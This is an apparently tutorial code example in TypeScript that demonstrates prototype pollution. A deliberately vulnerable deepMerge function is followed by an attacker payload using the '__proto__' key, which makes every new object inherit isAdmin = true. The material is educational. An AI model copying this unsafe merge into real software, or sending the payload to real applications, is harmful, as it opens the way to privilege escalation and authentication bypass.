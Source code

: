 ### Practical Examples

**Prototype Pollution Example (Vulnerable Deep Merge)**

```typescript
// --- Vulnerable merge function ---
function isObject(item: any): boolean {
    return (item && typeof item === 'object' && !Array.isArray(item));
}

function deepMerge(target: any, source: any): any {
    if (isObject(target) && isObject(source)) {
        for (const key in source) {
            if (isObject(source[key])) {
                if (!target[key]) {
                    Object.assign(target, { [key]: {} });
                }
                deepMerge(target[key], source[key]);
            } else {
                Object.assign(target, { [key]: source[key] });
            }
        }
    }
    return target;
}

// --- Exploitation ---
const userConfig = {
    isAdmin: false,
    settings: {
        theme: 'dark'
    }
};

console.log("Before pollution:", userConfig.isAdmin); // false

// Attacker-controlled input mimicking a JSON body or query param
const attackerPayload = JSON.parse('{"__proto__": {"isAdmin": true}}');

// A common scenario where an application merges user input into an object
deepMerge(userConfig, attackerPayload);

// The vulnerability: Object.prototype has been polluted
console.log("After pollution:", userConfig.isAdmin); // still false, but...

// A new object now inherits the polluted property
const newUser = {};
console.log("New object inherits pollution:", newUser.isAdmin); // true

// This can affect global behavior, e.g., if a framework checks a property on any object
// Imagine a framework internally creating objects and checking `obj.isAuthenticated`
```
